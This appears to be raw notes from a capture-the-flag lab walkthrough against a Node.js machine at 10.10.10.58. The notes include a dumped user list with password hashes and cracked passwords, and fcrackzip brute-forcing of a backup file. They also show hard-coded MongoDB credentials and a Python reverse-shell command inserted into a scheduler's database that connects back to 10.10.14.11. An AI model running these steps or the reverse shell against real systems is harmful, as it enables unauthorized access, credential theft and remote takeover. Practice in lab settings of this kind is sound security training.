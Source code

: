 
> http://10.10.10.58:3000/api/users/
```json
[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
```


```
myP14ceAdm1nAcc0uNT:manchester
tom:spongebob
mark:snowflake
rastating: Hash could not be identified
```

```
base64 --decode myplace.backup > decode
file decode
unzip decode
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' decode     
PASSWORD FOUND!!!!: pw == magicword
```

in app.js
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';


/dev/mqueue/linpeas.txt

/libx32           Inside root                                                                                                 
/lib32 

 /var/scheduler/app.js


 db.tasks.insert({cmd: "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.11\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})



find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null